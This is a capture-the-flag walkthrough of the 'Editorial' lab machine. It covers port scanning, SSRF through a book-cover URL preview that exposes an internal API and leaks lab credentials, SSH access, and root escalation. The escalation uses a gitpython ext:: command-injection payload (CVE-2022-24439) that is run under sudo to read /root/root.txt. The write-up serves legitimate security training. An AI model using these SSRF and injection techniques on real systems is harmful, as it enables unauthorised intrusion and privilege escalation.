 # Editorial

<figure><img src="../../.gitbook/assets/Editorial (1).png" alt=""><figcaption></figcaption></figure>

## Enumeration

```bash
nmap -v -A -O -p- -Pn editorial.htb -oN nmap
```

```bash
Nmap scan report for editorial.htb (10.10.11.20)
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/25%OT=22%CT=1%CU=36690%PV=Y%DS=2%DC=T%G=Y%TM=667A
OS:8DC0%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53C
OS:ST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
OS:ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Uptime guess: 47.259 days (since Thu May  9 05:15:52 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   49.98 ms 10.10.14.1
2   50.05 ms editorial.htb (10.10.11.20)

NSE: Script Post-scanning.
Initiating NSE at 11:28
Completed NSE at 11:28, 0.01s elapsed
Initiating NSE at 11:28
Completed NSE at 11:28, 0.00s elapsed
Initiating NSE at 11:28
Completed NSE at 11:28, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.99 seconds
           Raw packets sent: 66482 (2.929MB) | Rcvd: 65859 (2.638MB)

```

### Port 80

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

On `/about` page we find another domain that is `tiempoarriba.htb`:

<figure><img src="../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

Directories and files enumeration with `ffuf`:

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

There is the `/upload` page:

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

The form allows you to upload a file depicting the book cover or submit the URL associated with the book cover. Also, it is possible to get a preview, but this does not seem to work because, as we can see, the file name is renamed and the file extension is removed. When we open the preview image in a new tab, the file is downloaded directly, so it seems that it is not possible to execute directly on the webserver any kind of command possibly injected into the uploaded file:

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

## Exploitation (dev)

If we try to intercept the request we can see that the URL is not sent to the backend and the response is the usual "Request Submited! blahblahblah...":

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Instead, the interesting part is the URL preview because this feature might be vulnerable to SSRF and allows an attacker to cause the server-side application to make requests to an unintended location:

<figure><img src="../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

but as before the file name is renamed and the file extension is removed.

However, this means that we can control the requests made from the backend to an endpoint we like externally or even internally. We check whether it is vulnerable to SSRF.

Using Burp Suite Repeater and the `http://127.0.0.1` as URL for the preview, we will obtain a result in the response:

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

This machine may have other services in the backend, we can enumerate them burp intruder and add a port number between 1-65535.

All the requests have this path in the response when requested a preview using a URL without any service running (that is the same shown before):

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

So filter this string with a negative search:

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

And we will find the only one with a different response, the port 5000:

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

Download the file and inspect it, seems to be a JSON:

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

It appears to be exposed on port 5000 an API endpoint and this appears to be the list of exposed methods.

Testing the various endpoints, the only one of interest is the following:

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

and we find juicy credentials:

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Username: dev

Password: dev080217\_devAPI!@

With these credentials we can only try to login using SSH:

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

And user flag is here.

## Privilege Escalation (prod)

There is another user (prod) that own also the `/home/prod` directory:

<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

Using the command `git log -p` we can inspect all the commit messages and differences commited to git repo. We can find the prod credential changed during the downgrade from prod to dev:

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Username: prod

Password: 080217\_Producti0n\_2023!@

ssh and get prod session :tada:

## Privilege Escalation (root)

The first thing to try on a Linux machine is always `sudo -l`:

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

This is the code of script allowed to run as root that performs a clone of a Git repository using the `gitpython` library:

{% code overflow="wrap" %}
```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
{% endcode %}

Searching online how work git module, we can find that <mark style="color:red;">**EVERY version of gitpython**</mark> is vulnerable to RCE

{% embed url="https://www.cve.org/CVERecord?id=CVE-2022-24439" %}

The PoC on Snyk website:

{% embed url="https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858" %}

Affected versions of this package are vulnerable to Remote Code Execution (RCE) due to improper user input validation, which makes it possible to inject a maliciously crafted remote URL into the clone command. Exploiting this vulnerability is possible because the library makes external calls to `git` without sufficient sanitization of input arguments. This is only relevant when enabling the `ext` transport protocol, as done in the script with line:

```python
multi_options=["-c protocol.ext.allow=always"]
```

Change the command injected by dumping the root flag and saving the output to a file under /home/prod.&#x20;

{% code overflow="wrap" %}
```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >/home/prod/root.txt'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Enjoy root :tada:
